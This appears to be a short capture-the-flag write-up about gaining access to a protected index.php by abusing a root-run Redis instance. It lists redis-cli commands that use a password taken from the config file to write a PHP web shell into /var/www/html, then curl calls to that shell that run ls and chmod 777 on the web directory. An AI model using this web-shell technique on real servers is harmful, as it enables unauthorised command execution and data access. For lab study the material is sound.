



# Redis Bug Hunt
This challenge requires gaining access to index.php on the client which is also running a redis instance.

## Initial Enumeration
During initial enumeration of the host, there are two services running of interest, apache and redis. The apache default installation (/var/www/html) location is not readable by the current user. The redis service however is running as root and has a readable config file (/etc/redis/redis.config).


Furthermore, using the configuration file, the password for authenticated access to the redis server can be attained which can allow a privesc attempt by writing out a PHP webshell.

## Privesc Via PHP Webshell
With redis authenticated access, the a webshell can be written out to the web server directory which can be used to execute arbitrary commands such as reading the target, index.php. The web shell is created by create a new redis database with PHP code in it. Since the webserver is a php server, this should be possible.

```bash
redis-cli
AUTH R3disp@ss
config set dir /var/www/html
config set dbfilename web.php
set test "<?php system($_GET['cmd']);?>"
save
```

Now, the redis database can be queried for the shell via curling the local host.
```bash
curl localhost/web.php?cmd=ls --output -
```


There are multiple avenues now to do the privesc, however the easiest based on the stated goals is to just chmod the web directory to make it readable to the current user. Then, reading the file, the bug is found.
```bash
curl localhost/web.php?cmd=chmod+777+-R+.
ls -altr /var/www/html
cat /var/www/html/index.php
```

